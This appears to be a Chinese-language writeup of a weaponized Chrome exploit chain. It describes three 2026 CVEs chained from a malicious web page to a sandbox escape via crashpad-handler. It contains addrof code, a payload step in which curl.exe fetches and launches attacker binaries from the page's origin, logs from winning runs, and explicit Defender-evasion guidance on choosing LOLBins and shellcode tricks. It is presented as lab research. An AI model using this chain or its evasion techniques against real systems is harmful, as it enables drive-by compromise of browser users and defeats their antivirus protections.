







# 从一个网页到 OS 沙箱逃逸：Chrome 三 CVE 全链武器化 Writeup（v4）

> **目标版本**：Chrome for Testing 152.0.7977.54（x64）· Windows 10 19045 · Defender 行为监控开启
> **涉及漏洞**：CVE-2026-87491 · CVE-2026-85046 · CVE-2026-78952
> **本机复现**：2026-10-20 Win11 26300 全链取胜（round7 / 209s，calc+notepad 弹出，
> 经非沙箱 crashpad-handler 的 LoadLibraryW 派发）——经修复植株命名不一致后达成，见 bug #20。
>
> **最终形态**：受害者只需访问一个网页。约 2 分钟内（期望 ~2.3 轮），计算器与记事本从**非沙箱的 crashpad-handler 进程**中弹出。stage-2（竞态器 + 恶意 DLL）由 payload 用系统 curl **从页面同源服务器自动拉取**——目标机器上不需要预置任何文件，本链不含任何硬编码本地路径。



---

## 0. TL;DR

```
恶意网页（同源服务器）
  ① CVE-2026-87491  sort() 比较器混淆 ─────────► addrof
  ② CVE-2026-85046  写屏障跳过/假对象回收 ─────► V8 cage 任意读写
  ③ wasm 私有异常符号伪造 ────────────────────► 跳表别名 → RX 代码区可写
        │  部署 2.6KB 机器码（字节级校验 bad4=0）+ 注入 location.origin
        ▼  渲染进程 ACE ✔
  ④ payload：PEB→IAT 自取 kernel32 → 5 个已加载导出
        curl.exe 拉取 poc.exe+evil.dll 到 %TEMP%（Defender 放行）
        CreateProcessA 启动竞态器 → 自旋 1s → 主动崩溃渲染器
        ▼
  ⑤ CVE-2026-78952  ReadUpTo 无钳位重试溢出
        翻页微脉冲 × 0x168/0xB8 溢出 → SMMW 模板劫持
        → Flush 派发 LoadLibraryW(ev64.dll) → calc + notepad
        ▼  OS 沙箱逃逸 ✔
```



**30 轮终测成绩**（2026-10-19，一台机器连续跑 24 分钟）：

| 指标 | v1 原版（硬编码路径） | **v4 武器化（零硬编码）** |
|---|---|---|
| 整链胜率/轮 | 29% | **43%**（13/30） |
| 到达部署 | ~50% | **83%**（25/30） |
| 部署后桥接 | 100%（本地 DLL） | 100%（curl，文件字节级校验一致） |
| 目标机预置依赖 | launch64.dll + 本地路径 | **无**（同源 HTTP 即可） |
| 一键命令 | `./run_chain.sh` | `./run_chain.sh`（冒烟 round2 79s 胜） |

> 武器化不但没有付出稳定性代价，反而把胜率提到 **1.5 倍**——原因见 §6 的"主动崩溃"。

---

## 1. 威胁模型与授权边界

- **授权隔离研究环境**：所有目标均为本地测试构建（Chrome for Testing），服务器与攻击代码全部运行在同一台实验机上，不涉及任何真实第三方系统。
- **威胁模型**：受害者访问攻击者控制的网页。渲染进程在 V8 沙箱内；OS 级沙箱把渲染器关在低权限 token 里——所以真正的"逃逸"不是跳出 V8 cage，而是把代码执行搬进一个**非沙箱的邻居进程**（crashpad-handler）。
- **防御现状**：目标机 Defender 实时防护 + 行为监控全开。这直接决定了武器化的选型（§5）。

---

## 2. 三块拼图：漏洞原理速览

### 2.1 CVE-2026-87491 —— sort() 比较器中的类型混淆（addrof）

V8 的 `Array.prototype.sort()` 允许比较器在排序中途修改数组。比较器把对象数组 `fill(0)` 清空、排序恢复时，V8 内部缓存的元素指针与新类型不匹配，读出的"指针"可按 Smi 解析——得到 **addrof**：

```js
function confuse(a){ function cmp(){ a.fill(0); return 0 } a.sort(cmp) }
function addrof(o){ const a=[o,o]; confuse(a); return ((Math.round(smiValue(a)+0.25)*2)|1)>>>0 }
```

> Windows 适配要点：必须以**内联脚本**结构运行（外部 .js 成功率骤降）；V8 map 常量（`DOUBLE_MAP=0x01032879` 等）由 addrof 探针实测提取，随 build 锁定。

### 2.2 CVE-2026-85046 —— 写屏障跳过 → 假对象回收 → cage 任意读写

利用窗口在**年轻代 GC 的一瞬间**：把承载写屏障的对象提升到老生代后写屏障被跳过，GC 移动对象后旧指针仍留在新空间。在旧指针位置喷射"假 JSArray 头"（map=PACKED_DOUBLE），让 V8 把后续回收的内存当作 double 数组复用——得到与 victim 数组共享 elements 的 **cage 内任意读写**（read32/write32）。

> 此步是整链概率瓶颈：`promote()` 需在压力分配循环中恰好等到一次 young GC。必须 fresh renderer；同进程页内重载复用脏堆会把成功率打到 ~3%。

### 2.3 wasm 私有异常符号伪造 → 跳表别名（渲染进程 ACE 的临门一脚）

cage 读写还不够——代码区在 cage 内但是 RX。利用 wasm 的**私有异常符号表**：复制私有 key、伪造 getter，使某个实例的 optimized 代码以"过期 trusted instance"执行，用 memory index 6 越界访问——存/取基址落进 wasm 代码区，得到一个**同时可读可写可执行的别名**：



三重验收后才允许部署：marker 回读（劫持的跳转真的执行了我们写的 stub）→ `body∈[0x1300,0xE000]`（避开核心函数体与 stub 区）→ 部署后整 blob 字节校验 `"VERIFY bad4=0"`。**写坏一半照跑**这类幽灵失败被彻底杜绝。

### 2.4 CVE-2026-78952 —— crashpad ReadUpTo 无钳位重试溢出（OS 逃逸）

崩溃报告由**非沙箱**的 `chrome.exe --type=crashpad-handler` 收集。客户端的 `CrashpadInfo`（PE 节 "CPADinfo"）里 `extra_memory_ranges` 指针告诉 handler 崩溃时额外读取哪些区间——**信任边界划错了地方**：



- 触发段尺寸精确设为 **0xB8**；
- 读取期间 6 个内核线程把目标页在 `PAGE_NOACCESS ↔ PAGE_READWRITE` 间微脉冲翻转；
- 首读撞 NOACCESS 后 `ProcessMemoryWin::ReadUpTo` **不把重试长度钳位到 size**，读出 **0x168** 字节 → 溢出 0xB0 盖到相邻堆槽（minidump 流的 SMMW 对象）；
- 模板劫持 → `Next()` 把 victim 页 memcpy 进 handler `.data`（plant 区，植入 `[Q]=宽字符DLL名 / [Q+8]=LoadLibraryW`）；
- `Flush()` 尾部 CFG 派发 `LoadLibraryW(Q)` —— **handler 进程内任意 DLL 加载**。

---

## 3. v4 全链架构


阶段 ↔ 文件 ↔ console 标记 ↔ 产物对照：

| # | 阶段 | 文件 | console 标记 | 产物/判据 |
|---|---|---|---|---|
| 1 | addrof + cage RW | stage1w.js | `GCDBG…sane=true` `ST1 cage_rw ready` `ST1 proof 13.37=13.37` | cage_rw 原语 |
| 2 | wasm 别名发现 | pocwin_full_w4.js | `BOOT pads compiled` `ALIAS OK body=0x…` | 可写 RX 偏移 |
| 3 | 部署 + origin 注入 | 同上 | `WROTE blob` `VERIFY bad4=0` `ORIGIN-OK=true` `DEPLOYED` | 2.6KB 机器码就位 |
| 4 | payload 自举 | payload_w4 blob | （无输出，见 §4.3 信标法） | 5 个函数指针 |
| 5 | stage-2 落地 | curl.exe | `%TEMP%\ms64.exe` `ev64.dll` | 文件字节级一致 |
| 6 | 竞态器启动 | ms64.exe | 竞态器自身日志 `[*] hole chain…` | handler 被调试/布防 |
| 7 | 主动崩溃 | payload | 渲染器死、页面重载 | crashpad 起跑信号 |
| 8 | 78952 竞态 | ms64 + handler | dbglog `WAW#0 cs_=plant+0x10` | 模板劫持命中 |
| 9 | OS 逃逸 | evil.dll | **calc + notepad 弹出** | 双开花签名 |

真实控制台证据（胜轮 `tmp/cl_W4_30.log` 原文，仅去掉 chrome 日志前缀）：

```
"GCDBG addrof 11bd51d 11bd5ed sane=true"     ← addrof 原语自检
"ST1 begin" … "ST1 reclaim hit=14"           ← 85046 回收命中
"ST1 fakeobj ok"                             ← 假对象接管
"ST1 cage_rw ready"  "ST1 proof 13.37=13.37" ← cage 读写闭环自检
"MAIN start" → "BOOT inst a/d ok" "BOOT pads compiled"
"MAIN getter done"                           ← 异常符号伪造完成
"ALIAS-TRY mi=6" → "ALIAS jumps=16" → "ALIAS OK body=0x1980"
"PRE-DEPLOY base=0x18e2 len=2617"
"WROTE blob"
"VERIFY bad4=0"                              ← 字节级校验通过
"ORIGIN-OK=true DEPLOYED at 0x18e2, firing callOld..."
（渲染器随 payload 主动崩溃，日志终止）
```

## 4. 阶段深潜

### 4.1 stage1：概率结构的源头

stage1 的失败模式高度可辨识（`young GC not observed` / `85046 bootstrap failed`），30 轮终测中仅 2 轮。真正难的是它对**环境状态**的敏感：

- 必须 fresh renderer：每轮重启 chrome（驱动脚本已内置）；
- 页内 `location.reload()` 重试适得其反（脏堆复用，29 连败实测）；
- **模块结构不能乱动**——这是 v3 的核心教训（§5）：往 wasm 模块里加垫函数会改变 V8 堆布局，直接压垮后面"descriptor discovery"这种对布局敏感的扫描步骤。

### 4.2 部署器：把"写对"变成工程问题

部署器（pocwin_full_w4.js 尾部）做三件事，全部有回读校验：

1. `wbytes()` 把 blob 逐 4 字节 arwWrite 进 RX 区；
2. origin 注入：`(location.origin+'\0').slice(0,71)` 逐 4 字节写进 `g_origin` 洞（@0x950），回读首 u32 必须等于 `"http"` 的 little-endian（0x70747468）；
3. 点火 `a.exports.callOld()` → 经劫持跳转进入 payload_main。

### 4.3 payload 自举：2.6KB 里的一次旅行



设计原则：**零常量、零遍历、零新 DLL**。

- 零常量：PEB→ImageBase→IAT 槽（+0x3BE4B8，build 锁定的唯一 RVA）→LoadLibraryW 绝对地址，每次 boot 自动正确（重启免疫）；
- 零遍历：堆已损坏，PEB→Ldr 走模块表随时踩雷——干脆从 LoadLibraryW 地址页对齐向下扫 MZ+PE 定位 kernel32；
- 零新 DLL：85046 之后在渲染器里 `LoadLibraryW` 任何**未加载**的 DLL（如 wininet）都会在损坏堆上做初始化分配直接崩——所以只用 kernel32 已加载导出，且逐个验证过不是 kernelbase 转发器。

**调试方法论：信标尸检法。** payload 在渲染器里没有任何输出通道。给每个早退点插入"故意崩溃"（写 `0xDEAD0000+阶段号`），渲染器崩溃后 crashpad 在 profile 目录留下 minidump，用自写的 `mdmp.c`（百行）解析异常流：**崩溃地址本身就是进度报告**。v3 时代靠它把"payload 到底跑到哪"从猜测变成读数。

### 4.4 stage-2 落地：curl 五步舞

```c
① CreateProcessA("curl.exe -sf -o \"%TEMP%\\ms64.exe\" ORIGIN/poc.exe"
                 " -o \"%TEMP%\\ev64.dll\" ORIGIN/evil.dll")   // 一次拉双文件
② WaitForSingleObject(hProcess, 30000)                        // 等下载完成
③ CreateProcessA("\"%TEMP%\\ms64.exe\" --handler \"<chrome>\""
                 " --db \"%TEMP%\\msdb\" --mode race"
                 " --iters 8 --pages 41 --calc --dbg")          // 直启竞态器
④ for (volatile u64 k=0; k<1.5e9; k++) {}                      // 自旋 ~1s
⑤ *(volatile int*)0xDEAD0021 = 0;                              // 主动崩溃
```

三个关键决策的依据：

- **curl 而非 certutil/powershell/bitsadmin**：进程创建层拦截实测矩阵（§5）——同一台机器上 certutil 下载模式被 Defender 拒（gle=5），curl 三变体全放行。**选型靠实测，不靠"常识"**。
- **WaitForSingleObject 而非 fire-and-forget**：竞态器启动时文件必须已在盘上；等 curl 退出消除了下载慢/失败时启动残缺文件的竞态。
- **自旋 + 主动崩溃**：曾以为 payload 返回后渲染器"自然会崩"——直到在胜轮日志里看到 `"UNREACHABLE — renderer should have crashed"` 真的打出来了（callOld 正常返回，渲染器活着，竞态器在等一个不会来的崩溃）。原生自旋期间 V8 完全暂停、没有 GC 打断，时序完全确定；1 秒足够竞态器完成 dbgwrap 附加与布防，然后主动崩溃送出起跑信号。这个修复直接把"部署→胜"从漏损状态拉回，是 v4 胜率反超 v1 的最大来源。

双环境验证记录：

- **宿主**（w4test.exe）：blob 装载到 RWX 区、origin 注入洞、调入口 → `%TEMP%` 两文件与 `poc.exe/evil.dll` 逐字节 `cmp` 一致、`msdb` 建立、ms64 进程存在；
- **渲染器**（胜轮）：`ORIGIN-OK=true` 点火后 `%TEMP%` 同样出现字节一致的文件 + 竞态器进程 + 最终 calc。

### 4.5 竞态与终局

竞态器（ms64.exe，即 crashpad_oob）启动后的自身日志（宿主回归时捕获）：

```
[*] hole chain = 0000000040000000
[*] CPADinfo=00007FF77FDFE000 sig=0x43506164 size=0x38 bag=00007FF77FDFC100 entries=41
[*] 触发读 {page+0xe98, 0xb0}，预期越界 0xb8（vuln）
[*] plant page = 0x60000000
[*] NtCreateThreadEx flags=0x42 OK …
[*] mode=race dbg=1
```

命中签名（dbgwrap 观测器）：

```
[dbgwrap] WAW#0 this=0x5458000bd238 data=0x5458000e6000 size=0xf00
          cs_=0x7ff6a577c810(=plant+0x10) buf_=0x7ff6a577b900 bsz=0x1000 used=0xf00
```

`cs_` 指向 plant 区 = 模板劫持成功；随后 Flush 派发 `LoadLibraryW(ev64.dll)`，evil.dll DllMain **同时**开 calc 和 notepad（双开花用于与手工窗口区分；驱动脚本每轮开跑前清场，杜绝残留误报）。



---

## 5. 武器化演进史：四代方案的生死簿



| 方案 | 思路 | 结局 |
|---|---|---|
| **v1 launch64.dll** | 渲染器内 `LoadLibraryW("C:\pwn\launch64.dll")`，DLL 里 WinInet 下载+启动 | ✅ 全链曾稳定取胜（29%/轮），但 3 处硬编码本地路径 |
| **v2 certutil** | payload 拼一条 cmd 链式下载命令 | ❌ Defender 行为监控在**进程创建层**拦截：`CreateProcessA` gle=5；bash 直接 spawn 也 EPERM；显式指定 cmd.exe 全路径无效——**拦的是命令行模式，不是映像**。诡异的是 payload 逻辑逐级验证全对（IAT→导出→拼串→调用），一度误判为 payload bug |
| **v3 页面内嵌** | 页面把 64KB 文件字节逐 4 字节 arwWrite 进 RX 区，payload 用 CreateFileA/WriteFile 落盘 | ⚠️ 功能完全打通（%TEMP% 文件字节级一致！）但为腾 64KB 连续空间把 wasm 垫函数从 10 加到 130 个——**扰动 V8 堆布局**，descriptor discovery 29%→3%，42 轮仅 2 次到达部署。弃用（架构经验保留在 pocwin_full_w3.js） |
| **v4 curl** ★ | payload 用系统自带 curl.exe 一次拉双文件 | ✅ blob 仅 2.6KB（任何映射块都放得下）、**原版 10-pad 模块一字不动**、零硬编码。43%/轮 |

v3 的尸检数据（正是它证明了"渲染器内落盘"可行，也证明了代价）：minidump 显示崩溃 RIP 落在 V8 cage 内的 wasm 代码区、写目标是 chrome.dll 的只读段——典型的"垫函数扩张改变了代码区布局，部署区压到活代码"。用 `mdmp.c` 从异常流读出 RIP/写目标/寄存器，再配合 blob 特征搜索定位，一次实验就看清了死因。

**给后来者的三条硬结论**：

1. LOLBin 选型必须**在目标环境实测进程创建**（certutil 被拦 / curl 放行，同一台机器、同一分钟）；
2. wasm 模块的**函数数量**是堆布局敏感参数——要扩代码空间改"每个垫函数的大小"，不要改"垫函数个数"；
3. 落地通道的 AV 面积（命令行特征）和 V8 布局面积（模块结构）要**分开评估**，v2/v3 各踩了一边。

---

## 6. 稳定性工程

历代配置实测（每代 ≥24 轮）：

| 版本 | 配置 | 整链/轮 | 到达部署 | 均耗时/胜 |
|---|---|---|---|---|
| v1 | iters=1 慢驱动 | 20% | 40% | ~200s |
| v3 旧 | fail-fast + iters=5 | 27% | ~50% | ~105s |
| v4 旧 | iters=8 + 48s 窗 | 29% | ~58% | 胜时 9–63s |
| v5 旧 | 双标签 | 21% | 56% | 无效（后台标签被节流） |
| **v4b ★** | **curl 落地 + 主动崩溃** | **43%** | **83%** | 平均 48s/轮，连胜段 20–25 轮 6 中 5 |

分阶段归因（30 轮终测，rate_w4.sh 自动统计）：

```
=== 30 rounds: WIN=13 DEPLOY=25 stage1=2 getter=0 alias=0 total=1451s ===
```

- stage1 失败 2 轮、getter/alias 0 轮显式失败（另有 3 轮归入 other 的早期失败）；
- 到达部署后 13/25 胜（52%）——剩余漏损在 78952 竞态本身（iters=8 的固有窗口）；
- **关键认识**：概率结构 = stage1 × 竞态 两处固有随机；桥接环节（部署/curl/启动）已 100% 化。主动崩溃把"部署了但渲染器不死"这个隐性漏损清零后，整链期望 ~2.3 轮。

驱动脚本的工程细节（每个都对应一次真实事故）：

- 每轮开跑前 taskkill **ms64 → chrome → calc/notepad**（顺序错了，dbgwrap 调试中的 chrome 会把 taskkill 卡死；不清 calc 会被残留窗口骗出假 WIN——曾被一个 13:57 的残留计算器连骗两次"6 秒胜利"）；
- fail-fast：日志见 `FAIL` 立即弃轮，省一半时间；
- runner 自启动：重启机器后 `./run_chain.sh` 一条命令即可（自动拉起 runner.exe，端口写 port.txt）。

---

## 7. Bug 博物馆（19 条，按"误导性"排序）

**裸 shellcode 构建（4 条）**

1. **`e8 00 00 00 00` 占位 call**——COFF 里跨函数 call 的 rel32 是占位 0，`objcopy` 抽出的 blob 里 call +0 直落垃圾字节段错误。辅助函数必须 `always_inline`（同节内 RIP 相对 lea 的位移是汇编期终值，无需重定位）。
2. **objcopy 带 60 字节 COFF 节表头**——符号偏移整体漂移。用 `llvm-readobj` 取 `PointerToRawData` 后 `dd` 精抽，偏移与 `llvm-nm` 严格一致。
3. **`.rodata` 部署即丢失**——一切字符串必须显式 `section(".text")`；宽字符串 `L""` 丢得最惨（`ms.cfg` 读出来是 "mD昀襄…"）。
4. **REL32/ADDR64 重定位断链**——内联 asm 引用符号在裸提取后得到零位移；`.text` 内预留洞 + rip 相对自定位。

**Win64 环境（4 条）**

5. **x64 syscall ABI 三连**：首参在 **r10**（syscall 硬件毁 rcx）；栈参数起于 **rsp+0x28**；系统调用号要本机实测 ntdll 桩（本机 Alloc=0x18/CreateThread=0xC2，公开表是 0x1A/0xC4——错号返回 ACCESS_VIOLATION 极具迷惑性）。
6. **kernel32 导出转发器**：RVA 落在导出目录内 = FORWARDER（内容是 "kernelbase.Xxx" 字符串）；按名取到直接调用会跳进字符串区执行。目标导出逐个 expchk 验证。
7. **PE 遍历偏移**：SizeOfOptionalHeader 在 pe+0x14；节名 "CPAD" LE=0x44415043；LDR 链 DllBase=cur+0x20。
8. **渲染器内 LoadLibraryW 新 DLL = 自杀**：wininet 的初始化在损坏堆上分配直接崩（宿主验证全通过、进渲染器就死，两天的误诊来源）。

**崩溃与收尸（3 条）**

9. **SEH 展开风暴**：脏 JS 栈崩溃 → 展开器读被砸坏的 unwind 信息 → 二次异常递归 → 栈耗尽 → WER。表象是"handler 永远收不到崩溃"（PIPE=0）；靠 WER 尸体的 `RtlUnwindPrologue` 循环栈定罪。
10. **payload 返回 ≠ 渲染器崩**：见 §4.4——自旋 1s + 写 0xDEAD0021 主动崩溃。
11. **残留计算器假 WIN**：胜负判据前必须每轮清场（两次 6 秒假胜利的教训）。

**部署与 wasm（4 条）**

12. **部署自毁**：写载荷的 wasm write 函数自己住在被写区域——10 个胖垫函数把可用 body 抬到 ≥0x1300。
13. **垫函数数量是堆布局参数**：10→130 → 3%/轮（v3 之死）。改大小不改个数。
14. **RWX 禁令**：渲染器策略拒 RWX（0xC0000045）——翻页线程直接跑载荷内 RX 代码。
15. **固定 VA 全灭**：低位 VA 全被预留（0xC0000018）——NULL hint + 返回值派生。

**工程杂项（4 条）**

16. **poc 从自己 exe 同目录找 evil.dll**：不在则竞态赢了也白赢（曾 100+ 轮空转，误判"竞态率低"）。
17. **宽字符 printf 方言**：minGW 下 `%s` 语义漂移——手工 wcat 拼串，零 printf。
18. **ms64 的 dbgwrap 调试 handler 时**：taskkill 必须先杀 ms64 再杀 chrome，否则卡死。
20. **跨文件命名契约不一致（复现时发现）**：竞态器植株源查找名硬编码 `evil.dll`
   （`%s\evil.dll`），而 payload 的 curl 把 DLL 落盘为 `ev64.dll`——干净环境（%TEMP%
   无残留）下 `CreateFileA` 打开源必失败（`fin=INVALID`），植株静默跳过，竞态赢了
   也白赢。原开发机 %TEMP% 有 w4test 回归台残留的 evil.dll 掩盖了不一致（与 #16
   同族）。修复：poc.exe 二进制补丁对齐为 `ev64.dll`（等长，保留 Defender 规避命名）。
   教训：curl 落盘名与竞态器查找名是跨文件契约，复现陌生环境先做"忠实落盘布局"
   的分段测试。详见 logs/rootcause_stage2_dllname_20261020.md。
19. **工具链自身也吃 Defender 规则**：bash 命令行里出现下载型模式会被 EPERM 拒启（写文档用文件写入工具而非 heredoc 即可绕开）——同一个拦截器，攻防两边都在吃。

---

## 8. 复现手册

